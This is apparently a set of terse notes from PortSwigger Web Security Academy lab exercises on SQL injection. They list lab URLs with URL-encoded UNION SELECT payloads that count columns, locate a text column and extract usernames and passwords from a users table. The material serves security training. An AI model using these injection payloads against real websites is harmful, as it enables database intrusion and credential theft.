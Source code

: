 https://ac051f801e2724ccc07c242800670063.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--
https://ac051f801e2724ccc07c242800670063.web-security-academy.net/filter?category=%27%20ORDER%20BY%203--+











2:-----
https://ac241f631e2f6d7dc053d5880094006f.web-security-academy.net/filter?category=%27UNION%20SELECT%20NULL,%27a%27,NULL--
Make the database retrieve the string: 'r4aiPH'



3:---
https://ac141ff81e6da02ac0bd0c9b00a70028.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20username,password%20FROM%20users--+
